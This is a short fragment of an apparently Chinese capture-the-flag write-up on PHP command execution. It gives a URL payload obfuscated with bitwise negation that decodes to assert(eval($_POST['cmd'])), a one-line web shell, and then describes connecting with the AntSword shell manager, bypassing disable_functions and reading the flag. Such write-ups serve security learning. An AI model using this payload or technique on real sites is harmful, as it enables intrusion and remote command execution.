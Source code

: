 Payload：?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9C%92%9B%DD%A2%D6%D6); 

**连接上蚁剑**

![image-20211126165525204](image/命令执行/image-20211126165525204.png)

用蚁剑上的插件绕过disable_functions，最后在根目录下执行/readfile文件成功拿到flag

![image-20211126165705830](image/命令执行/image-20211126165705830.png)
